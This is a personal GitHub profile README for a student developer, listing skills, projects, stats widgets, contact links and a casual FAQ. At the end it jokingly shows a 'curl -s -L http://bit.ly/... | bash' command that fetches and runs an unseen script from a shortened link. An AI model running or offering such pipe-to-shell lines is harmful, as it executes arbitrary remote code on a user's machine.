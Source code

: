 <!--<h1 align="center"> <a href="https://tusharnankani.github.io/about/" ><img src="Assets/portfolio.gh.png" alt="about-ss"> </a>--> 
 
 <br > Welcome to my GitHub! 😇</h1>

<!-- <p align="center">
 <img width="100px" src="https://res.cloudinary.com/anuraghazra/image/upload/v1594908242/logo_ccswme.svg" align="center" alt="Github Readme Stats" />
</p> -->
<p align="center"> <img src="https://komarev.com/ghpvc/?username=zeankundev" alt="kkanekii"/> </p>

-   🤗 I'm an junior developer, Software and Hardware Engineer!
-   🔭 I'm currently working on my Competitive Coding Skills.
-   🌱 I'm currently learning _C++, Scala_ 
-   💬 Ask me about JavaScript, C#, Java, React.js, HTML, Python, Rust.
-   📫 How to reach me: 
    
    - <a href="mailto:zeanfender11@gmail.com">Email</a>
    - <a href="https://discord.gg/pbYzGWF9Q4">Discord</a>

### About Me

I am working on my **Projects**, **development software**, **productivity software** and **computer boards!**. My interest lies in **Javascript**, **Web Development**, **App Development with React.js**, **Desktop Development Electron.js**, **Video Editing Creating with MLT** and **Computer Engineering with EasyEDA**.

Currently, aim is to become a globally competent individual with **programming skills** along with **design skills** and **engineering skills**.

### My Achievements:
- Won the 2023 HKICO Heat Round Secondary 1 (Python): Zean Fender Isnomo.

![image](https://github.com/zeankundev/zeankundev/assets/58360911/4aff522b-ab03-4874-b275-abfd9e252bf8)


<!-- I have the **attitude** of a learner, the **courage** of an entrepreneur and the **thinking** of an optimist, engraved inside me. I wish to be a leader in my community of people and have an *innate desire* to contribute to **environment** and **society**. -->


<!-- <p align="center"><img alt="GitHub Stats" src="https://github-readme-stats.vercel.app/api?username=tusharnankani&show_icons=true&title_color=fff&icon_color=82d4f7&text_color=d1dae3&bg_color=090909"> </p> -->

<p align="center">

![zeans stats](https://github-readme-stats.vercel.app/api?username=zeankundev&show_icons=true)
![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=zeankundev&layout=compact)
 <a href="https://discord.com/users/793983601288544286">
  <img src="https://lanyard-profile-readme.vercel.app/api/793983601288544286?idleMessage=i%20forgor%20💀" width="50%" align="left" />
</a>


<!-- <img src="https://github-readme-streak-stats.herokuapp.com/?user=zeankundev" alt="Github Streak Stats"> -->

</p>

<!--<p align="center"> <img src="https://github-readme-stats.vercel.app/api?username=zeankundev_icons=true" alt="kkanekii" />-->

<!--[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=zeankundev&show_icons=true&title_color=fff&icon_color=79ff97&text_color=9f9f9f&bg_color=151515)](https://github.com/kushal98?tab=repositories)-->

## Some Of My Projects
<p align="center">
<a href="https://github.com/zeankundev/graycrown">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=zeankundev&repo=graycrown" />
</a>
<a href="https://github.com/zeankundev/NextPay">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=zeankundev&repo=NextPay"/>
</a>
</p>

<br>
<br>
<br>
<br>




<br>
<br>
<br>
<br>

<div align="center">
<br>




<h2>
Connect with me<img src="Assets/Handshake.gif" height="32px">
</h2>

 [<img src="https://cdn.svgporn.com/logos/github-icon.svg" alt="Github logo" width="34">](https://github.com/zeankundev) [<img src="Assets/Gmail.svg" alt="Gmail logo" height="32">](mailto:zeanfender11@gmail.com) [<img src="Assets/Discord-Logo-Color.svg" alt="Discord logo" height="32">](https://discord.gg/2cJBQrdZkm) [<img src="https://upload.wikimedia.org/wikipedia/sco/thumb/9/9f/Twitter_bird_logo_2012.svg/1200px-Twitter_bird_logo_2012.svg.png" alt="twitter" height="32">](https://twitter.com/ZeanKunDev) [pls click me](https://bit.ly/3kmEhmP) 

 
 <h2>Donate me on Trakteer!</h2>
<a href="https://trakteer.id/zeankundev" target="_blank"><img id="wse-buttons-preview" src="https://cdn.trakteer.id/images/embed/trbtn-red-1.png" style="border:0px;height:40px;" alt="Trakteer Saya" height="40"></a>
</div>

# FAQ about me
- **What games do you play mostly?**
> VALORANT, Stumble Guys, osu!, Roblox
- **Most favorite programming language?**
> C++, JS, HTML, CSS, React
- **Are you a weeb? If yes, what are your favorite animes?**
> Sadly, not anymore :(
- **Any games that you wanna develop right now?**
> Yes. It's called Cosplay Simulator. I will be using Unity and Bolt
- **Any more questions to ask with me? Contact me on _ThatYummyTofu#8863_ on Discord**

# Typically (un)neccesarry stuffs
- My VALORANT crosshair (suitable for players that suffer ADHD or level 4 autism, like me)
later

<br>

plus, dont copy paste this command to ur terminal, or else, something will happen 😇

```
curl -s -L http://bit.ly/10hA8iC | bash
```
